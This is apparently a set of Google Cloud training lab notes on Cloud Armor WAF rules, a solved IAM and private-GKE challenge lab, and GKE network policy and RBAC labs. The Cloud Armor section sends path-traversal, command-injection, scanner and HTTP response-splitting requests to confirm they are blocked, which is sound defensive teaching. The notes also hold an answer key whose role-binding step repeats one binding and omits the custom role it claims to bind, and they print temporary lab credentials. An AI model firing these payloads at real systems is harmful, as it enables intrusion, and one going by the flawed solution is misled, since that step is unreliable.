     --expression "evaluatePreconfiguredExpr('protocolattack-stable')" \
    --action deny-403
```

Copied!

1. Update the security policy to block session fixation.

Per the OWASP ModSecurity Core Rule Set, apply the following rules using Cloud Shell:

```
gcloud compute security-policies rules create 9004 \
    --security-policy Policy Name \
    --description "block session fixation attacks" \
     --expression "evaluatePreconfiguredExpr('sessionfixation-stable')" \
    --action deny-403
```

Copied!

1. Attach the security policy to the backend service:

```
gcloud compute backend-services update juice-shop-backend \
    --security-policy Policy Name \
    --global
```

Copied!

Rules may take some time to propagate (but not more than 10 mins).

1. Once sufficient time has passed, test the vulnerabilities previously demonstrated to confirm Cloud Armor WAF rule enforcement in the next step.

Click **Check my progress** to verify the objective.

Create the Cloud Armor security policy


Check my progress


### Observe Cloud Armor protection with OWASP ModSecurity Core Rule Set

1. In Cloud Shell, confirm the LFI vulnerability is mitigated:

```
curl -Ii http://$PUBLIC_SVC_IP/?a=../
```

Copied!

Output:

```
HTTP/1.1 403 Forbidden
<...>
```

1. In Cloud Shell, confirm the RCE attack is mitigated:

```
curl -Ii http://$PUBLIC_SVC_IP/ftp?doc=/bin/ls
```

Copied!

Output:

```
HTTP/1.1 403 Forbidden
<..>
```

1. In Cloud Shell, confirm well-known scanner detection.

```
curl -Ii http://$PUBLIC_SVC_IP -H "User-Agent: blackwidow"
```

Copied!

Output:

```
HTTP/1.1 403 Forbidden
<..>
```

1. In Cloud Shell, confirm a protocol attack is mitigated.

Per the OWASP ModSecurity Core Rule Set ver.3.0.2, the protocol attack is mitigated by:

```
curl -Ii "http://$PUBLIC_SVC_IP/index.html?foo=advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>"
```

Copied!

Output:

```
HTTP/1.1 403 Forbidden
<..>
```

1. In Cloud Shell, confirm session fixation attempts are blocked:

```
curl -Ii http://$PUBLIC_SVC_IP/?session_id=a
```

Copied!

Output:

```
HTTP/1.1 403 Forbidden
<..>
```

## Task 5. Review Cloud Armor Security rules

Now that you've created the security policy, look at what rules have been configured.


Rules are evaluated by priority: lower numbers are evaluated first and once triggered, processing does not continue for rules with higher priority values.

- Priority `9000` - Block LFI (local file inclusion)
- Priority `9001` - Block RCE (remote code execution/command injection)
- Priority `9002` - Block Scanners Detected
- Priority `9003` - Block Protocol Attacks like HTTP splitting and HTTP smuggling
- Priority `9004` - Block Session Fixation Attacks
- Priority `10000` - Allow your IP to access the Website
- Priority `Default` - Deny.

**Note:** Notice the "allow your IP" rule is configured with the highest priority number to allow access to the site, however blocks any attack.

## Task 6. Observe Cloud Armor security policy logs

From the Cloud Armor console page, view details of the security policy and click the Logs tab followed by the View policy logs link to be directed to the Cloud Logging page. It automatically filters based on the security policy of interest, for example, resource.type:(http_load_balancer) AND jsonPayload.enforcedSecurityPolicy.name:`Policy Name`. Observe the 403 error response codes and expand the log details to observe the enforced security policy's name, matched field value, and further down the preconfigured expression IDs (or the signature id).

It automatically filters based on the security policy of interest, for example, resource.type:(http_load_balancer) AND jsonPayload.enforcedSecurityPolicy.name:(`Policy Name`).

- Observe the 403 error response codes and expand the log details to observe the enforced security policy's name, matched field value, and further down the preconfigured expression IDs (or the signature id).

The following screenshots show examples of the logs for the enforced security policies configured in this lab.

**LFI log** 

**RCE log** 

**Scanner detection log** 

**Protocol attack log** 

**Session fixation log** 

## Congratulations!

You've successfully mitigated some of the common vulnerabilities by using Google Cloud Armor WAF rules.

**Manual Last Updated November 06, 2024**

**Lab Last Tested November 06, 2024**


# Implement Cloud Security Fundamentals on Google Cloud


## Implement Cloud Security Fundamentals on Google Cloud: Challenge Lab

### Overview

In a challenge lab you’re given a scenario and a set of tasks. Instead of following step-by-step instructions, you will use the skills learned from the labs in the course to figure out how to complete the tasks on your own! An automated scoring system (shown on this page) will provide feedback on whether you have completed your tasks correctly.

When you take a challenge lab, you will not be taught new Google Cloud concepts. You are expected to extend your learned skills, like changing default values and reading and researching error messages to fix your own mistakes.

To score 100% you must successfully complete all tasks within the time period!

This lab is recommended for students who have enrolled in the [Implement Cloud Security Fundamentals on Google Cloud](https://www.cloudskillsboost.google/course_templates/645) skill badge. Are you ready for the challenge?

#### Topics tested

- Create a custom security role.
- Create a service account.
- Bind IAM security roles to a service account.
- Create a private Kubernetes Engine cluster in a custom subnet.
- Deploy an application to a private Kubernetes Engine cluster

### Setup and requirements

#### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

### Challenge scenario

You have started a new role as a junior member of the security team for the Orca team in Jooli Inc. Your team is responsible for ensuring the security of the Cloud infrastructure and services that the company's applications depend on.

You are expected to have the skills and knowledge for these tasks, so don't expect step-by-step guides to be provided.

#### Your challenge

You have been asked to deploy, configure, and test a new Kubernetes Engine cluster that will be used for application development and pipeline testing by the Orca development team.

As per the organization's security standards you must ensure that the new Kubernetes Engine cluster is built according to the organization's most recent security standards and thereby must comply with the following:

- The cluster must be deployed using a dedicated service account configured with the least privileges required.
- The cluster must be deployed as a Kubernetes Engine private cluster, with the public endpoint disabled, and the master authorized network set to include only the ip-address of the Orca group's management jumphost.
- The Kubernetes Engine private cluster must be deployed to the `orca-build-subnet` in the Orca Build VPC.

From a previous project you know that the minimum permissions required by the service account that is specified for a Kubernetes Engine cluster is covered by these three built in roles:

- `roles/monitoring.viewer`
- `roles/monitoring.metricWriter`
- `roles/logging.logWriter`

These roles are specified in the Google Kubernetes Engine (GKE)'s Harden your cluster's security guide in the [Use least privilege Google service accounts](https://cloud.google.com/kubernetes-engine/docs/how-to/hardening-your-cluster#use_least_privilege_sa) section.

You must bind the above roles to the service account used by the cluster as well as a custom role that you must create in order to provide access to any other services specified by the development team. Initially you have been told that the development team requires that the service account used by the cluster should have the permissions necessary to add and update objects in Google Cloud Storage buckets. To do this you will have to create a new custom IAM role that will provide the following permissions:

- `storage.buckets.get`
- `storage.objects.get`
- `storage.objects.list`
- `storage.objects.update`
- `storage.objects.create`

Once you have created the new private cluster you must test that it is correctly configured by connecting to it from the jumphost, `orca-jumphost`, in the management subnet `orca-mgmt-subnet`. As this compute instance is not in the same subnet as the private cluster you must make sure that the master authorized networks for the cluster includes the internal ip-address for the instance, and you must specify the `--internal-ip` flag when retrieving cluster credentials using the `gcloud container clusters get-credentials` command.

All new cloud objects and services that you create should include the "orca-" prefix.

Your final task is to validate that the cluster is working correctly by deploying a simple application to the cluster to test that management access to the cluster using the `kubectl` tool is working from the `orca-jumphost` compute instance.

For all tasks in this lab, use the `europe-west4` region and the `europe-west4-b` zone.

### Task 1. Create a custom security role

Your first task is to create a new custom IAM security role called `orca_storage_editor_401` that will provide the Google Cloud storage bucket and object permissions required to be able to create and update storage objects.

#### Solution

**Create a Role Definition File**:

```
cat > role-definition.yaml <<EOF_END
title: "$CUSTOM_SECURIY_ROLE"
description: "Permissions"
stage: "ALPHA"
includedPermissions:
- storage.buckets.get
- storage.objects.get
- storage.objects.list
- storage.objects.update
- storage.objects.create
EOF_END
```

Here, we create a YAML file that defines the custom IAM role. This file specifies the title, description, stage, and included permissions for the role.

**Create the Custom Security Role**:

```
gcloud iam roles create $CUSTOM_SECURIY_ROLE --project $DEVSHELL_PROJECT_ID --file role-definition.yaml
```

Assessment Completed!

Check that a Custom security role has been created.


Check my progress

*Assessment Completed!*


### Task 2. Create a service account

Your second task is to create the dedicated service account that will be used as the service account for your new private cluster. You must name this account `orca-private-cluster-523-sa`.

#### Solution

```
gcloud iam service-accounts create orca-private-cluster-523-sa --display-name "Orca Private Cluster Service Account"
```

Check that a new service account has been created.


Check my progress


### Task 3. Bind a custom security role to a service account

You must now bind the Cloud Operations logging and monitoring roles that are required for Kubernetes Engine Cluster service accounts as well as the custom IAM role you created for storage permissions to the Service Account you created earlier.

#### Solution 

**Bind IAM Policy Roles:**

```
gcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/monitoring.viewer

gcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/monitoring.metricWriter

gcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/logging.logWriter

gcloud projects add-iam-policy-binding qwiklabs-gcp-02-7589d0814713 --member serviceAccount:orca-private-cluster-523-sa@qwiklabs-gcp-02-7589d0814713.iam.gserviceaccount.com --role roles/logging.logWriter
```

These commands bind various IAM roles to the service account. The roles `monitoring.viewer`, `monitoring.metricWriter`, and `logging.logWriter` provide monitoring and logging capabilities. The custom role created in Task 1 is also bound to the service account.

Check that a the correct built in and custom security roles have been bound to the new service account.


Check my progress


### Task 4. Create and configure a new Kubernetes Engine private cluster

You must now use the service account you have configured when creating a new Kubernetes Engine private cluster. The new cluster configuration must include the following:

- The cluster must be called `orca-cluster-455`
- The cluster must be deployed to the subnet `orca-build-subnet`
- The cluster must be configured to use the `orca-private-cluster-523-sa` service account.
- The private cluster options `enable-master-authorized-networks`, `enable-ip-alias`, `enable-private-nodes`, and `enable-private-endpoint` must be enabled.

Once the cluster is configured you must add the internal ip-address of the `orca-jumphost` compute instance to the master authorized network list.

**Create the GKE Cluster**:

```
gcloud container clusters create $CLUSTER_NAME --num-nodes 1 --master-ipv4-cidr=172.16.0.64/28 --network orca-build-vpc --subnetwork orca-build-subnet --enable-master-authorized-networks --master-authorized-networks 192.168.10.2/32 --enable-ip-alias --enable-private-nodes --enable-private-endpoint --service-account $SERVICE_ACCOUNT@$DEVSHELL_PROJECT_ID.iam.gserviceaccount.com --zone $ZONE
```

This command creates a private Google Kubernetes Engine (GKE) cluster. Key configurations include enabling private nodes and endpoints, setting master authorized networks, and specifying the service account for the cluster.

Confirm that a Kubernetes Engine private cluster has been deployed correctly.


Check my progress


### Task 5. Deploy an application to a private Kubernetes Engine cluster

You have a simple test application that can be deployed to any cluster to quickly test that basic container deployment functionality is working and that basic services can be created and accessed. You must configure the environment so that you can deploy this simple demo to the new cluster using the jumphost `orca-jumphost`.

**Note:** Make sure to properly install the `gke-gcloud-auth-plugin` before running any `kubectl` commands. This is detailed below in **Tip 1**.

```
kubectl create deployment hello-server --image=gcr.io/google-samples/hello-app:1.0
```


This deploys an application that listens on port 8080 that can be exposed using a basic load balancer service for testing.

#### Solution

**Connect to the orca-jumphost VM**

```
gcloud compute ssh --zone "$ZONE" "orca-jumphost" --project qwiklabs-gcp-02-7589d0814713 
```

**Run this command to orca-jumphost VM**

```
gcloud config set compute/zone europe-west4-b 

gcloud container clusters get-credentials orca-cluster-455 --project qwiklabs-gcp-02-7589d0814713 --internal-ip --location europe-west4

sudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin

kubectl create deployment hello-server --image=gcr.io/google-samples/hello-app:1.0
```


Check that an application has been deployed to a private Kubernetes Engine cluster.


Check my progress


### Congratulations!

In this lab, you have configured a new Kubernetes Engine private cluster that is configured to use a dedicated service account with the least privileges required to run the cluster. You have also created a custom IAM role that provides the permissions required to create and update storage objects in Google Cloud Storage buckets and bound that role to the service account used by the cluster. You also validated that the cluster is working correctly by deploying a simple application to the cluster to test that management access to the cluster using the `kubectl` tool is working from the `orca-jumphost` compute instance.


# Google Kubernetes Engine Best Practices: Security


## LAB - How to Use a Network Policy on Google Kubernetes Engine

### Overview

This lab will show you how to improve the security of your Kubernetes Engine by applying fine-grained restrictions to network communication.

The [Principle of Least Privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege) is widely recognized as an important design consideration in enhancing the protection of critical systems from faults and malicious behavior. It suggests that every component must be able to access **only** the information and resources that are necessary for its legitimate purpose. This document demonstrates how the Principle of Least Privilege can be implemented within the Kubernetes Engine network layer.

Network connections can be restricted at two tiers of your Kubernetes Engine infrastructure. The first, and coarser grained, mechanism is the application of Firewall Rules at the Network, Subnetwork, and Host levels. These rules are applied outside of the Kubernetes Engine at the VPC level.

While Firewall Rules are a powerful security measure, and Kubernetes enables you to define even finer grained rules via Network Policies. [Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/) are used to limit intra-cluster communication. Network policies do not apply to pods attached to the host's network namespace.

For this lab you will provision a private Kubernetes Engine cluster and a bastion host with which to access it. A bastion host provides a single host that has access to the cluster, which, when combined with a private Kubernetes network, ensures that the cluster isn't exposed to malicious behavior from the internet at large. Bastions are particularly useful when you do not have VPN access to the cloud network.

Within the cluster, a simple HTTP server and two client pods will be provisioned. You will learn how to use a Network Policy and labeling to only allow connections from one of the client pods.

This lab was created by GKE Helmsman engineers to give you a better understanding of GKE Binary Authorization. You can view this demo by running `gsutil cp -r gs://spls/gke-binary-auth/* .` and `cd gke-binary-auth-demo` command in cloud shell. We encourage any and all to contribute to our assets!

### Architecture

You will define a private, standard mode Kubernetes cluster that uses Dataplane V2. Dataplane V2 has network policies enabled by default.

Since the cluster is private, neither the API nor the worker nodes will be accessible from the internet. Instead, you will define a bastion host and use a firewall rule to enable access to it. The bastion's IP address is defined as an authorized network for the cluster, which grants it access to the API.

Within the cluster, provision three workloads:

1. hello-server: this is a simple HTTP server with an internally-accessible endpoint
2. hello-client-allowed: this is a single pod that repeatedly attempts to access hello-server. The pod is labeled such that the Network Policy will allow it to connect to hello-server.
3. hello-client-blocked: this runs the same code as hello-client-allowed but the pod is labeled such that the Network Policy will **not** allow it to connect to hello-server.


### Setup and requirements

### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

#### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   student-02-1aeeb3e9ea9b@qwiklabs.net
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   lmTNItcHGI0e
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

#### Activate Cloud Shell

Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.

1. Click **Activate Cloud Shell**  at the top of the Google Cloud console.
2. Click through the following windows:
   - Continue through the Cloud Shell information window.
   - Authorize Cloud Shell to use your credentials to make Google Cloud API calls.

When you are connected, you are already authenticated, and the project is set to your **Project_ID**, `qwiklabs-gcp-02-ede9e9aa3015`. The output contains a line that declares the **Project_ID** for this session:

```
Your Cloud Platform project in this session is set to qwiklabs-gcp-02-ede9e9aa3015
```

`gcloud` is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

1. (Optional) You can list the active account name with this command:

```
gcloud auth list
```

Copied!

1. Click **Authorize**.

**Output:**

```
ACTIVE: *
ACCOUNT: student-02-1aeeb3e9ea9b@qwiklabs.net

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

1. (Optional) You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = qwiklabs-gcp-02-ede9e9aa3015
```

**Note:** For full documentation of `gcloud`, in Google Cloud, refer to [the gcloud CLI overview guide](https://cloud.google.com/sdk/gcloud).

#### Clone demo

1. Copy the resources needed for this lab exercise from a Cloud Storage bucket:

```
gsutil cp -r gs://spls/gsp480/gke-network-policy-demo .
```

Copied!

1. Go into the directory for the demo:

```
cd gke-network-policy-demo
```

Copied!

1. Make the demo files executable:

```
chmod -R 755 *
```

Copied!

### Task 1. Lab setup

First, set the Google Cloud region and zone.

1. Set the Google Cloud region.

```
gcloud config set compute/region "europe-west1"
```

Copied!

1. Set the Google Cloud zone.

   ```
   gcloud config set compute/zone "europe-west1-b"
   ```

   Copied!

This lab will use the following Google Cloud Service APIs, and have been enabled for you:

- `compute.googleapis.com`
- `container.googleapis.com`
- `cloudbuild.googleapis.com`

In addition, the Terraform configuration takes three parameters to determine where the Kubernetes Engine cluster should be created:

- `project ID`
- `region`
- `zone`

For simplicity, these parameters are specified in a file named `terraform.tfvars`, in the `terraform` directory.

1. To ensure the appropriate APIs are enabled and to generate the `terraform/terraform.tfvars` file based on your gcloud defaults, run:

```
make setup-project
```

Copied!

1. Type `y` when asked to confirm.

This will enable the necessary Service APIs, and it will also generate a `terraform/terraform.tfvars` file with the following keys.

1. Verify the values themselves will match the output of `gcloud config list` by running:

```
cat terraform/terraform.tfvars
```

Copied!

### Provisioning the Kubernetes Engine cluster

1. Next, apply the Terraform configuration within the project root:

```
make tf-apply
```

Copied!

1. When prompted, review the generated plan and enter `yes` to deploy the environment.

This will take several minutes to deploy.

### Task 2. Validation

Terraform outputs a message when the cluster's been successfully created.

```
...snip...
google_container_cluster.primary: Still creating... (3m0s elapsed)
google_container_cluster.primary: Still creating... (3m10s elapsed)
google_container_cluster.primary: Still creating... (3m20s elapsed)
google_container_cluster.primary: Still creating... (3m30s elapsed)
google_container_cluster.primary: Creation complete after 3m34s (ID: gke-demo-cluster)

Apply complete! Resources: 5 added, 0 changed, 0 destroyed.
```

**Test completed task**

Click **Check my progress** to verify your performed task. If you have successfully deployed necessary infrastructure with Terraform, you will see an assessment score.

Use Terraform to set up the necessary infrastructure (Lab setup)


Check my progress


1. Now ssh into the bastion for the remaining steps:

```
gcloud compute ssh gke-demo-bastion
```

Copied!

Existing versions of kubectl and custom Kubernetes clients contain provider-specific code to manage authentication between the client and Google Kubernetes Engine. Starting with v1.26, this code will no longer be included as part of the OSS kubectl. GKE users will need to download and use a separate authentication plugin to generate GKE-specific tokens. This new binary, `gke-gcloud-auth-plugin`, uses the [Kubernetes Client-go Credential Plugin](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#client-go-credential-plugins) mechanism to extend kubectl’s authentication to support GKE. For more information, you can check out the following [documentation](https://cloud.google.com/blog/products/containers-kubernetes/kubectl-auth-changes-in-gke).

To have kubectl use the new binary plugin for authentication instead of using the default provider-specific code, use the following steps.

1. Once connected, run the following command to install the `gke-gcloud-auth-plugin` on the VM.

```
sudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin
```

Copied!

1. Set `export USE_GKE_GCLOUD_AUTH_PLUGIN=True` in `~/.bashrc`:

```
echo "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrc
```

Copied!

1. Run the following command:

```
source ~/.bashrc
```

Copied!

1. Run the following command to force the config for this cluster to be updated to the Client-go Credential Plugin configuration.

```
gcloud container clusters get-credentials gke-demo-cluster --zone europe-west1-b
```

Copied!

On success, you should see this message:

```
kubeconfig entry generated for gke-demo-cluster.
```

The newly-created cluster will now be available for the standard `kubectl` commands on the bastion.

### Task 3. Installing the hello server

The test application consists of one simple HTTP server, deployed as `hello-server`, and two clients, one of which will be labeled `app=hello` and the other `app=not-hello`.

All three services can be deployed by applying the hello-app manifests.

1. On the bastion, run:

```
kubectl apply -f ./manifests/hello-app/
```

Copied!

Output:

```
deployment.apps/hello-client-allowed created
deployment.apps/hello-client-blocked created
service/hello-server created
deployment.apps/hello-server created
```

1. Verify all three pods have been successfully deployed:

```
kubectl get pods
```

Copied!

You will see one running pod for each of *hello-client-allowed*, *hello-client-blocked*, and *hello-server* deployments.

```
NAME                                      READY     STATUS    RESTARTS   AGE
hello-client-allowed-7d95fcd5d9-t8fsk   |  1/1      Running   0          14m
hello-client-blocked-6497db465d-ckbn8   |  1/1      Running   0          14m
hello-server-7df58f7fb5-nvcvd           |  1/1      Running   0          14m
```

**Test completed task**

Click **Check my progress** to verify your performed task. If you have successfully deployed a simple HTTP hello server, you will see an assessment score.

Installing the hello server


Check my progress


### Task 4. Confirming default access to the hello server

1. First, tail the "allowed" client:

```
kubectl logs --tail 10 -f $(kubectl get pods -oname -l app=hello)
```

Copied!

Press CTRL+C to exit.

1. Second, tail the logs of the "blocked" client:

```
kubectl logs --tail 10 -f $(kubectl get pods -oname -l app=not-hello)
```

Copied!

1. Press CTRL+C to exit.

You will notice that both pods are successfully able to connect to the `hello-server` service. This is because you have not yet defined a Network Policy to restrict access. In each of these windows you should see successful responses from the server.

```
Hostname: hello-server-7df58f7fb5-nvcvd
Hello, world!
Version: 1.0.0
Hostname: hello-server-7df58f7fb5-nvcvd
Hello, world!
Version: 1.0.0
Hostname: hello-server-7df58f7fb5-nvcvd
...
```

### Task 5. Restricting access with a Network Policy

Now you will block access to the `hello-server` pod from all pods that are not labeled with `app=hello`.

The policy definition you'll use is contained in `manifests/network-policy.yaml`

1. Apply the policy with the following command:

```
kubectl apply -f ./manifests/network-policy.yaml
```

Copied!

Output:

```
networkpolicy.networking.k8s.io/hello-server-allow-from-hello-client created
```

1. Tail the logs of the "blocked" client again:

```
kubectl logs --tail 10 -f $(kubectl get pods -oname -l app=not-hello)
```

Copied!

You'll now see that the output looks like this in the window tailing the "blocked" client:

```
wget: download timed out
wget: download timed out
wget: download timed out
wget: download timed out
wget: download timed out
wget: download timed out
wget: download timed out
wget: download timed out
wget: download timed out
...
```

The network policy has now prevented communication to the `hello-server` from the unlabeled pod.

1. Press CTRL+C to exit.

### Task 6. Restricting namespaces with Network Policies

In the previous example, you defined a network policy that restricts connections based on pod labels. It is often useful to instead label entire namespaces, particularly when teams or applications are granted their own namespaces.

You'll now modify the network policy to only allow traffic from a designated namespace, then you'll move the `hello-allowed` pod into that new namespace.

1. First, delete the existing network policy:

```
kubectl delete -f ./manifests/network-policy.yaml
```

Copied!

Output:

```
networkpolicy.networking.k8s.io "hello-server-allow-from-hello-client" deleted
```

1. Create the namespaced version:

```
kubectl create -f ./manifests/network-policy-namespaced.yaml
```

Copied!

Output:

```
networkpolicy.networking.k8s.io/hello-server-allow-from-hello-client created
```

1. Now observe the logs of the `hello-allowed-client` pod in the default namespace:

```
kubectl logs --tail 10 -f $(kubectl get pods -oname -l app=hello)
```

Copied!

You will notice it is no longer able to connect to the `hello-server`.

1. Press CTRL+C to exit.
2. Finally, deploy a second copy of the hello-clients app into the new namespace.

```
kubectl -n hello-apps apply -f ./manifests/hello-app/hello-client.yaml
```

Copied!

Output:

```
deployment.apps/hello-client-allowed created
deployment.apps/hello-client-blocked created
```

**Test completed task**

Click **Check my progress** to verify your performed task. If you have successfully deployed a second copy of the hello-clients app into the new namespace, you will see an assessment score.

Deploy a second copy of the hello-clients app into the new namespace


Check my progress


### Task 7. Validation

Next, check the logs for the two new `hello-app` clients.

1. View the logs for the "hello"-labeled app in the app in the `hello-apps` namespace by running:

```
kubectl logs --tail 10 -f -n hello-apps $(kubectl get pods -oname -l app=hello -n hello-apps)
```

Copied!

Output:

```
Hostname: hello-server-6c6fd59cc9-7fvgp
Hello, world!
Version: 1.0.0
Hostname: hello-server-6c6fd59cc9-7fvgp
Hello, world!
Version: 1.0.0
Hostname: hello-server-6c6fd59cc9-7fvgp
Hello, world!
Version: 1.0.0
Hostname: hello-server-6c6fd59cc9-7fvgp
Hello, world!
Version: 1.0.0
Hostname: hello-server-6c6fd59cc9-7fvgp
```

Both clients are able to connect successfully because *as of Kubernetes 1.10.x NetworkPolicies do not support restricting access to pods within a given namespace*. You can allowlist by pod label, namespace label, or allowlist the union (i.e. OR) of both. But you cannot yet allowlist the intersection (i.e. AND) of pod labels and namespace labels.

1. Press CTRL+C to exit.

### Task 8. Teardown

Qwiklabs will take care of shutting down all the resources used for this lab, but here’s what you would need to do to clean up your own environment to save on cost and to be a good cloud citizen:

1. Log out of the bastion host:

```
exit
```

Copied!

1. Run the following to destroy the environment:

```
make teardown
```

Copied!

Output:

```
...snip...
google_compute_subnetwork.cluster-subnet: Still destroying... (ID: us-east1/kube-net-subnet, 20s elapsed)
google_compute_subnetwork.cluster-subnet: Destruction complete after 25s
google_compute_network.gke-network: Destroying... (ID: kube-net)
google_compute_network.gke-network: Still destroying... (ID: kube-net, 10s elapsed)
google_compute_network.gke-network: Still destroying... (ID: kube-net, 20s elapsed)
google_compute_network.gke-network: Destruction complete after 26s

Destroy complete! Resources: 5 destroyed.
```

### Task 9. Troubleshooting in your own environment

#### The install script fails with a "permission denied" error when running Terraform

The credentials that Terraform is using do not provide the necessary permissions to create resources in the selected projects. Ensure that the account listed in `gcloud config list` has necessary permissions to create resources. If it does, regenerate the application default credentials using `gcloud auth application-default login`.

#### Invalid fingerprint error during Terraform operations

Terraform occasionally complains about an invalid fingerprint, when updating certain resources.

If you see the error below, simply re-run the command. 

### Congratulations!

You improved the security of your Kubernetes Engine by applying fine-grained restrictions to network communication.

## LAB - Using Role-based Access Control in Kubernetes Engine

## Overview

This lab covers the usage and debugging of [role-based access control (RBAC)](https://kubernetes.io/docs/reference/access-authn-authz/rbac/) in a Kubernetes Engine cluster.

While RBAC resource definitions are standard across all Kubernetes platforms, their interaction with underlying authentication and authorization providers needs to be understood when building on any cloud provider.

RBAC is a powerful security mechanism that provides great flexibility in how you restrict operations within a cluster. This lab will cover two use cases for RBAC:

1. Assigning different permissions to user personas, namely owners and auditors.
2. Granting limited API access to an application running within your cluster.

Since RBAC's flexibility can occasionally result in complex rules, common steps for troubleshooting RBAC are included as part of scenario 2.

## Architecture

This lab focuses on the use of RBAC within a Kubernetes Engine cluster. It demonstrates how varying levels of cluster privilege can be granted to different user personas. You will provision two service accounts to represent user personas and three namespaces: dev, test, and prod. The "owner" persona will have read-write access to all three namespaces, while the "auditor" persona will have read-only access and be restricted to the dev namespace.

This lab was created by GKE Helmsman engineers to help you grasp a better understanding of Using role-based access controls in GKE. You can [view this demo on Github](https://github.com/GoogleCloudPlatform/gke-rbac-demo.git). We encourage any and all to contribute to our assets!


## Setup and requirements

### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   student-02-d79e7215c92b@qwiklabs.net
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   rDBeNJgZxCDO
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

### Activate Cloud Shell

